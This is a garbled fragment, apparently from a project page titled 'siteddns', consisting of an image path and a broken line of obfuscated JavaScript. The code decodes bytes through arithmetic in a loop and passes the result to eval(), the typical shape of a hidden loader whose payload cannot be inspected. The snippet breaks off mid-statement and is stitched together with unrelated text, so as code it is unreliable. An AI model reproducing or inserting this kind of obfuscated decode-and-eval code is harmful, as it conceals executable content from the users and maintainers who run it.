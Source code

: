  # siteddns
51)break;bo[do_]=(((bo[do_]+161)&0xff)+166)&0xff;bo[do_]=(bo[do_]-214)&0xff;do_++;}while(true);";eval(do_);do_=3;while(do_
